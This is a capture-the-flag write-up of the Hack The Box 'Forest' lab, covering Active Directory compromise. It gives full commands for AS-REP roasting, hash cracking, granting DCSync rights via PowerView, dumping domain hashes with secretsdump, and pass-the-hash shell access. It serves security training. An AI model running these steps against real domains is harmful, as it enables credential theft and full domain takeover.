 ```yaml
---
title: "CTF Writeup: Forest"
date: 2025-01-22
categories: [CTF, Writeup, Hackthebox]
tags: [AD, DcSync, HTB]
---
```


# Hack The Box - Forest

## Description
Forest is an easy machine that focusses on Active Directory and how this can be misused when certain conditions are met.

## Information Gathering

### Step 1: Enumeration
I start with running good olde nmap to enumerate the target machine.

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/forest_TCP 10.129.84.192
```
![alt text](/assets/screenshots/forest/image.png)
Seems that nothing special is running on the machine other then what we could expect from a AD machine.

Let's start with some user enumeration. We can use enum4linux for this.
```bash
# enum4linux -a -U 10.129.84.192
```
![alt text](/assets/screenshots/forest/image-1.png)<br>
I got some usernames!

Now that we found some usernames we can try and use AS-REP roasting. With kerberoasting we need to use credentials to authenticate with. But with AS-REP roasting we can get the hashes for accounts that have the 'do not require kerberos preauth' set to true.

## Exploitation

### Step 2: AS-REP Roasting

To make the AS-REP Roasting a bit faster I made a for loop to walk through a list of usernames. This is much easier then having to run the command multiple times for each username.

```bash
# for user in $(cat usernames.txt); do /opt/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.129.187.133 htb/${user} | grep -v Impacket;
```
![alt text](/assets/screenshots/forest/image-2.png)<br>
I got a hit on the hash for the user svc-alfresco!

Let's use hashcat to try and crack the hash.
```bash
# sudo hashcat -m 18200 svc_alfresco.hash /usr/share/wordlists/rockyou.txt.gz --force
```
![alt text](/assets/screenshots/forest/image-3.png)<br>
And got a hit on the password! This means I can now authenticate to the target machine using the alfresco credentials.

Using netexec to test if the credentials are working.
```bash
# netexec smb 10.129.187.133 -u "svc-alfresco" -p "[password]" --shares
```
![alt text](/assets/screenshots/forest/image-4.png)<br>
They are working and have SMB rights. I could also use netexec to run the scripts needed for bloodhound enumeration. Doing this I can get a detailed picture of the AD network and the relations between users, groups and more.
```bash
# netexec ldap 10.129.187.133 -u "svc-alfresco" -p "[password]" --bloodhound --collection All --dns-server 10.129.187.133
```
![alt text](/assets/screenshots/forest/image-5.png)<br>

It worked, I can now import this into bloodhound and see the relation in this AD envirionment.
![alt text](/assets/screenshots/forest/image-7.png)<br>
It seems that SVC-alfresco is member of the Account Operators group by a couple of group jumps. This means he can create new users to the domain.

Looking a bit deeper into the Account Operators group I can see that they have GenericAll rights on the Exchange Windows Permissions group.
![alt text](/assets/screenshots/forest/image-8.png)<br>
The Exchange Windows Permissions groups has WriteDacl (Discretionary Access Control List) rights on the HTB.Local environment. This means that a member of the Exchange Windows Permissions group can give any user DcSync privileges.

Before I look into this attack scenario further let's first try and login using the credentials and get the user.txt file. evil-winrm can be used to login to the target machine.
```bash
# evil-winrm -i 10.129.187.133 -u svc-alfresco -p [password]
```
![alt text](/assets/screenshots/forest/image-9.png)<br>

Now I should be able to get that user.txt file.
![alt text](/assets/screenshots/forest/image-19.png)<br>

# Privilege Escalation
Now to find a way to elevate privileges.

From the bloodhound insight, I know that our user svc-alfresco is a member of the privileged IT accounts. This means he can create a new domain account and because the Privileged IT account it part of the Account operators and the account operator have generic all over Exchange windows permissions we can add the user to that group!
And to make a home-run that group has WriteDacl on the htb.domain which we can use to get a DcSync and get the hashes!

First step is to create a new user on the domain. Which we can do because we are member of the Account Operators group.
```bash
# net user tech password123! /add /domain
```
![alt text](/assets/screenshots/forest/image-10.png)<br>

Now that I created a new user "tech" I can add him to the Exchange Windows Permissions group.
```bash
# net group "Exchange Windows Permissions" /add tech
```
![<alt text>](/assets/screenshots/forest/image-11.png)<br>
Noice! Our tech user is now member of the Exchange Windows Permissions group.

Now I need to give tech the rights to DcSync on the domain.
In order to do this I need Powerview.ps1!

I can simply use evil-winrm to upload powerview.ps1
![alt text](/assets/screenshots/forest/image-12.png)<br>

Now start Powerview.ps1.
```bash
# . ./Powerview.ps1
```
![alt text](/assets/screenshots/forest/image-13.png)<br>

Now I will run the following commands.
```bash
# $SecPassword = ConvertTo-SecureString 'password123!' -AsPlainText -Force
# $Cred = New-Object System.Management.Automation.PSCredential('htb\tech', $SecPassword)
# Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tech -Rights DCSync
```
![alt text](/assets/screenshots/forest/image-14.png)<br>

Our user tech should now be able to use DcSync and able to get all the users hashes!
Let's use impacket-secretsdump to execute our DcSync attack.

```bash
# impacket-secretsdump htb.local/tech:'password123!'@10.129.187.133
```
![alt text](/assets/screenshots/forest/image-15.png)<br>
I can see the administrator and his hash!

Now use a tool like psexec to get a shell on the system.
```bash
# impacket-psexec administrator@10.129.187.133 -hashes hash:hash
```
![alt text](/assets/screenshots/forest/image-16.png)<br>
Now I can get that root.txt!

![alt text](/assets/screenshots/forest/image-17.png)<br>
Noice!

![alt text](/assets/screenshots/forest/image-18.png)<br>

## Conclusion
To summarize this machine. It was a AD machine that had some misconfigurations like not enforcing kerberos authentication. Also the privileges for the users are not restricing enough and led to a total takeover in this scenario.

## Lessons Learned
- check the accounts are kerberoastable or even asking for kerberos auth.
- check if each user needs certain privileges it has before giving it.